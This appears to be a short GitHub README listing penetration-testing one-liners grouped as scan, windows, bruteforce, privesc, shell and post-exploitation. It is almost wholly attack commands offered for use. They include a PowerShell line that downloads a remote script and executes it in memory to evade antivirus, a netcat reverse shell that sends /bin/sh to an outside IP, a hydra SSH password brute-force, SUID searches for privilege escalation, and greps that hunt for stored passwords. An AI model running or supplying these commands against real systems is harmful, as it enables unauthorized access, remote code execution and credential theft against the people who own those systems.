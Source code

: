 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<p>run ps1 script in memory (bypass antivirus) :</p>
<ul>
<li>powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')</li>
</ul>

# bruteforce
<ul>
<li>hydra -l user -P wordlist.txt 192.168.10.130 ssh</li>
</ul>
<p>generate wordlist from a password with 2 missing characters :</p>
<ul>
<li>crunch 7 7 -t passwo^% >> wordlist.txt</li>
</ul>

# privesc

<ul>
<li>find / -perm -u=s -type f 2>/dev/null</li>
<li>find / -perm +6000 2> /dev/null</li>
<li>https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/</li>
</ul>

# shell

<p>LFI</p>
<ul>
<li>/bin/nc 192.168.91.1 1234 -e /bin/sh /bin</li>
</ul>

# post-exploitation
<ul>
<li> grep -air --include=*.txt ou .json ou .sh password ou mot de passe </li>
<li> grep -air --include=*.txt mot de passe </li>
<li> grep -air --include=*pass* ""</li>
</ul>
